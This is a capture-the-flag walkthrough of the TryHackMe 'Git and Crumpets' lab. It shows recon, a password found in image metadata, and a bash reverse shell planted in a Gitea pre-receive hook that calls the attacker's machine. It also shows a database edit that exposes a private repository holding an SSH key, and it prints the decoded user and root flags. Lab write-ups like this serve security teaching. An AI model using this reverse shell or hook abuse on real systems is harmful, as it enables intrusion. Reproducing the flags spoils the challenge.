


# TryHackMe [Git and Crumpets](https://www.tryhackme.com/room/gitandcrumpets)
### References
* Bertrand, A. (2021, April 16). Git and Crumpets - TryHackMe. blog.hydrashead.net. https://blog.hydrashead.net/posts/thm-git-and-crumpets/
* siddicky. (2021, July 3). siddicky/git-and-crumpets. GitHub. https://github.com/siddicky/git-and-crumpets
## Reconnaissance
1. `nmap`:
```bash
$ nmap -sV -vv <MACHINE_IP>
PORT     STATE  SERVICE    REASON       VERSION
22/tcp   open   ssh        syn-ack      OpenSSH 8.0 (protocol 2.0)
80/tcp   open   http       syn-ack      nginx
9090/tcp closed zeus-admin conn-refused
```
2. `curl <MACHINE_IP>`:
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Go away!</title>
  </head>
  <body>
    <main>
      <h1>Nothing to see here, move along</h1>
      <h2>Notice:</h2>
      <p> 
        Hey guys,
           I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet. 
           In the meantime, here's a fun video I found!
        Hydra
      </p>
      <pre>
Never gonna give you up,
            Never gonna let you down...
      </pre>
    </main>
  </body>
</html>
```
   * Add `<MACHINE_IP> git.git-and-crumpets.thm` to your `/etc/hosts` file.
3. `scones`' does not seem to be careful with his passwords:

4. `scones`' profile picture contains his password, his email is mentioned as `withcream@example.com` in his profile:
```bash
$ wget http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -O 3fc2cde6ac97e8c8a0c8b202e527d56d.png
$ exiftool 3fc2cde6ac97e8c8a0c8b202e527d56d.png 
ExifTool Version Number         : 12.26
File Name                       : 3fc2cde6ac97e8c8a0c8b202e527d56d.png
Directory                       : .
File Size                       : 279 KiB
File Modification Date/Time     : 2021:04:16 02:13:00+10:00
File Access Date/Time           : 2021:07:06 15:07:34+10:00
File Inode Change Date/Time     : 2021:07:06 15:07:34+10:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 290
Image Height                    : 290
Bit Depth                       : 16
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Description                     : My 'Password' should be easy enough to guess
Image Size                      : 290x290
Megapixels                      : 0.084
```

## User Flag
1. Sign-in as `scones` and edit the `pre-receive` `git` hook at `scones/cant-touch-this` with `/bin/bash -i >& /dev/tcp/<OPENVPN_IP>/1234 0>&1` in order to create a reverse shell to your machine before receiving a `git`-related update.
2. Open a listener for the port you wrote in the `git` hook (1234 in this case), and make a change to a file at `scones/cant-touch-this`:
```bash
$ nc -lvnp 1234
[git@git-and-crumpets cant-touch-this.git]$ pwd
/var/lib/gitea/data/gitea-repositories/scones/cant-touch-this.git
```
3. The user flag is in the home directory and is Base64-encoded:
```bash
[git@git-and-crumpets cant-touch-this.git]$ cd
[git@git-and-crumpets ~]$ ls -la
total 20
drwx------. 3 git  git  129 Apr 15 17:04 .
drwxr-xr-x. 4 root root  35 Apr 14 09:37 ..
lrwxrwxrwx. 1 git  git    9 Apr 15 17:04 .bash_history -> /dev/null
-rw-r--r--. 1 git  git   18 Jul 21  2020 .bash_logout
-rw-r--r--. 1 git  git  141 Jul 21  2020 .bash_profile
-rw-r--r--. 1 git  git  376 Jul 21  2020 .bashrc
-rw-r--r--. 1 git  git  162 Apr 14 09:56 .gitconfig
drwx------. 2 git  git   29 Apr 14 10:37 .ssh
-r--------. 1 git  git   53 Apr 15 16:53 user.txt
[git@git-and-crumpets ~]$ cat user.txt
dGhte2ZkN2FiOWZmZDQwOTA2NGYyNTdjZDcwY2YzZDZhYTE2fQ==
[git@git-and-crumpets ~]$ cat user.txt | base64 -d
thm{fd7ab9ffd409064f257cd70cf3d6aa16}
```

**User Flag**: `thm{fd7ab9ffd409064f257cd70cf3d6aa16}`
## Root Flag
1. The reverse shell's initial directory was at `/var/lib/gitea/data`, which contains an SQLite database at the `gitea.db` file:
```bash
[git@git-and-crumpets gitea]$ cd /var/lib/gitea/data
[git@git-and-crumpets data]$ ls -la
total 1288
drwxr-x---. 11 git git     170 Jul  6 07:25 .
drwxr-xr-x.  5 git git      57 Apr 15 13:12 ..
drwxr-xr-x.  2 git git       6 Apr 14 09:56 attachments
drwxr-xr-x.  3 git git     217 Jul  6 07:01 avatars
drwxr-xr-x.  5 git git      45 Apr 15 15:50 gitea-repositories
-rw-r--r--.  1 git git 1318912 Jul  6 07:25 gitea.db
drwxr-xr-x.  4 git git      46 Apr 14 09:56 indexers
drwxr-xr-x.  2 git git       6 Apr 14 09:56 lfs
drwxr-xr-x.  7 git git     114 Apr 14 09:56 queues
drwxr-xr-x.  2 git git       6 Apr 14 09:56 repo-avatars
drwx------. 14 git git     114 May 22 22:38 sessions
drwxr-xr-x.  3 git git      24 Jul  6 07:20 tmp
```
2. The database has a `repository` table:
```sql
[git@git-and-crumpets ~]$ sqlite3 gitea.db
sqlite> .tables
access                     org_user                 
access_token               project                  
action                     project_board            
attachment                 project_issue            
collaboration              protected_branch         
comment                    public_key               
commit_status              pull_request             
deleted_branch             reaction                 
deploy_key                 release                  
email_address              repo_indexer_status      
email_hash                 repo_redirect            
external_login_user        repo_topic               
follow                     repo_transfer            
gpg_key                    repo_unit                
gpg_key_import             repository               
hook_task                  review                   
issue                      session                  
issue_assignees            star                     
issue_dependency           stopwatch                
issue_label                task                     
issue_user                 team                     
issue_watch                team_repo                
label                      team_unit                
language_stat              team_user                
lfs_lock                   topic                    
lfs_meta_object            tracked_time             
login_source               two_factor               
milestone                  u2f_registration         
mirror                     upload                   
notice                     user                     
notification               user_open_id             
oauth2_application         user_redirect            
oauth2_authorization_code  version                  
oauth2_grant               watch                    
oauth2_session             webhook
```
3. The `repository` table has a `is_private` column that sets the public visibility of a specific repository:
```sql
sqlite> SELECT * FROM repository;
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|1|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25958|1|0|null|0||1618494644|1625549065
4|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23233|1|0|null|0||1621615239|1621615240
sqlite> SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name='repository';
CREATE TABLE `repository` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `owner_id` INTEGER NULL, `owner_name` TEXT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `description` TEXT NULL, `website` TEXT NULL, `original_service_type` INTEGER NULL, `original_url` TEXT NULL, `default_branch` TEXT NULL, `num_watches` INTEGER NULL, `num_stars` INTEGER NULL, `num_forks` INTEGER NULL, `num_issues` INTEGER NULL, `num_closed_issues` INTEGER NULL, `num_pulls` INTEGER NULL, `num_closed_pulls` INTEGER NULL, `num_milestones` INTEGER DEFAULT 0 NOT NULL, `num_closed_milestones` INTEGER DEFAULT 0 NOT NULL, `num_projects` INTEGER DEFAULT 0 NOT NULL, `num_closed_projects` INTEGER DEFAULT 0 NOT NULL, `is_private` INTEGER NULL, `is_empty` INTEGER NULL, `is_archived` INTEGER NULL, `is_mirror` INTEGER NULL, `status` INTEGER DEFAULT 0 NOT NULL, `is_fork` INTEGER DEFAULT 0 NOT NULL, `fork_id` INTEGER NULL, `is_template` INTEGER DEFAULT 0 NOT NULL, `template_id` INTEGER NULL, `size` INTEGER DEFAULT 0 NOT NULL, `is_fsck_enabled` INTEGER DEFAULT 1 NOT NULL, `close_issues_via_commit_in_any_branch` INTEGER DEFAULT 0 NOT NULL, `topics` TEXT NULL, `trust_model` INTEGER NULL, `avatar` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL)
sqlite> UPDATE repository SET is_private=0 WHERE id=2;
sqlite> SELECT * FROM repository;
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25958|1|0|null|0||1618494644|1625549065
4|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23233|1|0|null|0||1621615239|1621615240
```
4. By making the private repository public, the `root/backup` repository had SSH-related commit submitted to it:

5. The commit contains an SSH private key (http://git.git-and-crumpets.thm/root/backup/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32).
   * After downloading the provate key, make sure to add an empty line at the end (if there isn't one already) and enable the proper SSH read permissions on that file with `chmod 600 Sup3rS3cur3`.
6. The private key passphrase turns out to be the name of the file:
   * The root flag is located in the `root`'s home directory and is also Base64-encoded.
```bash
$ ssh root@<MACHINE_IP> -i Sup3rS3cur3
Enter passphrase for key 'Sup3rS3cur3': Sup3rS3cur3
[root@git-and-crumpets ~]# ls
anaconda-ks.cfg  root.txt
[root@git-and-crumpets ~]# cat root.txt
dGhtezYzMjAyMjhkZDllMzE1ZjI4M2I3NTg4NzI0MGRjNmExfQ==
[root@git-and-crumpets ~]# cat root.txt | base64 -d
thm{6320228dd9e315f283b75887240dc6a1}
```

**Root Flag**: `thm{6320228dd9e315f283b75887240dc6a1}`